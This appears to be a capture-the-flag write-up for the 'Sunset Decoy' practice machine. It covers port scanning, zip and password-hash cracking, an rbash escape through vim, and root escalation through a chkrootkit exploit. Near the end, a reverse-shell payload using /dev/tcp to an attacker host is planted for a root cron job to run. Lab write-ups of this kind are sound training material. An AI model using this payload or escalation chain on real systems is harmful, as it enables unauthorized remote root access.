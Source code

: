```yaml
---
title: Sunset Decoy
categories: [Proving Grounds Play, Sunset]
tags: [Public Exploit, chrootkit, fcrackzip, hashcat, vim, PrivEsc]
image:
  path: https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2020/12/sunsetdecoy.png?fit=1200%2C864&w=640
  alt:  Sunset-Decoy Machine 🖥️
---
```



### Lets check the IP address first —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled.png)

```bash
IP : 10.0.2.49
```
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Decoy]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.49
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 10:50 IST
Nmap scan report for 10.0.2.49
Host is up (0.00093s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9b53e3be374e4ffb6d59ff181e7a44f (RSA)
|   256 cef3b3e70e90e264ac8d870f1588aa5f (ECDSA)
|_  256 66a98091f3d84b0a69b000229f3c4c5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:BA:A7:50 (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%201.png)

Now lets brute force the password of zip file with `fcrackzip` tool ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%202.png)

Got the password : `manuel`

Now Lets see what I got →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%203.png)

Now lets decrypt the hash from shadow file with `hashcat` tool ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%204.png)

Now I got the credentials of user → 

```bash
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::

password : server
```
{: .nolineno}

Now let’s SSH into it ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%205.png)

Since it is running rbash so I need to convert it to bash for that lets see what I got —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%206.png)

Lets execute `honeypot.decoy` which have root privileges —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%207.png)

Lets run Leave a note command with runs on vim I think so , which that I can change the shell ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%208.png)

Now lets also set the PATH file —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%209.png)

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat user.txt 
35253d886842075b2c6390f35946e41f
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```
{: .nolineno}

Now lets enumerate freely —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2010.png)

Lets check the logs file —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2011.png)

here I find extraction of `chkrootkit` which works as Antivirus purpose and wait I also found AV launch option in `honeypot.decoy` file so lets execute it →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2012.png)

Now I see it is executing the chkrootkit as root Lets find an exploit related to it —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2013.png)

After reading it I got the steps to perform this exploitation →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2015.png)

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo "bash -c 'bash -i >& /dev/tcp/10.0.2.27/4444 0>&1'" > /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ chmod +x /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```
{: .nolineno}

Lets wait for cronjob to execute and wait for nc respomse →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2016.png)

```bash
root@60832e9f188106ec5bcc4eb7709ce592:~# cat root.txt	
cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_

1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
root@60832e9f188106ec5bcc4eb7709ce592:~#
```